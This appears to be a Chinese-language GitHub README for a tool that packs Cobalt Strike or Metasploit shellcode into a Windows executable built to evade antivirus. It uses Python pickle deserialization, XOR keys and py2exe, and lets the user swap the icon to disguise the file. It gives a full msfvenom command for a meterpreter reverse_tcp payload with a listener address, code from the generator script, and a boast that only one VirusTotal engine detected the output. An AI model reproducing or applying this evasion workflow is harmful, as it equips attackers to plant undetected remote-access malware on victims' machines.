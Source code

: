# CS MSF 均可使用
_描述：前阵子可动态免杀绝大部分杀软，最近发现微软的Defender 动态免杀 不了，想了想还是放出来吧，供大家参考下_

**可以的话，老哥们点个star吧 嘻嘻**

![图片](https://user-images.githubusercontent.com/46078482/106402903-dea92180-6466-11eb-8a0a-99bc5e06ec4a.png)

`1、Filehandle.py用于处理CS MSF 生成的shellcode文件 提取 shellcode`

`2、ver.py 是核心生成代码，需修改`

`3、exeSetup.py 是 py2exe 打包启动文件，可修改`

**VT上只有匹配到了1个！还是很Nice**

![图片](https://user-images.githubusercontent.com/46078482/106403260-9854c200-6468-11eb-84fb-af5287310417.png)


# 原理：
python 反序列化免杀

# 环境：
_测试时，我发现 python 3.7.0 这个版本兼容好，其他版本会有些问题，打包的程序可能无法正常使用！！！_

	* python 3.7.0  
	* py2exe库 【pyinstall指纹已经被很多杀软收集了】
	* python3.7.0淘宝镜像-http://npm.taobao.org/mirrors/python/3.7.0/python-3.7.0.exe
	


# 步骤
** 1、生成shellcode

	* CS 生成C语言格式
	* MSF msfvenom -a x86 -p windows/meterpreter/reverse_tcp lhost=192.168.47.147 lport=4444 -b '\x00' -f python

** 2、修改 ver.py 文件里的 shellcode值

  [1] Filehandle.py 用于处理 第一步里的 shellcode文件
  
  [2] ver.py 可修改异或密钥

          #key 设定shellcode的密钥
          key = 'liam'
          mess = get_shellcode(shellcode, key)
          #print(mess)
          ret = pickle.dumps(Student())
          decode_hex = codecs.getdecoder("hex_codec")
          encode_hex = codecs.getencoder("hex_codec")
          
          ret_hex = encode_hex(ret)[0]
          #key2 设定反序列化里的密钥
          key2 = "byav"


** 3、可在 exeSetup.py 修改生成的图标

     setup(
      options=options,    
      description = "this is a py2exe test",   
      zipfile=None,
      windows = [{"script":'launch.py',"icon_resources": [(1, u"softmgr.ico")]}]  #可选择其他图标ico
      )


** 4、运行 ver.py 后在 output 目录可查看到 launch.exe
